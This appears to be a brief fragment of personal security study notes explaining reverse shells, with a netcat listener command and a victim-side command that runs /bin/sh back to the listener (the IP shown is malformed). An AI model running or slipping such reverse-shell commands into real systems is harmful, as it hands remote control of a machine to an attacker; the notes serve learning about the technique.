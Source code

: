* Reverse shell means a victim connects to us. Target is connecting, attackbox is listening.  
  * We are listening on a port (nc -lvp 4444, lvp is listening verbose prot)
  * Victim machine is saying nc 192.168.1.1.1 4444 -e /bin/sh
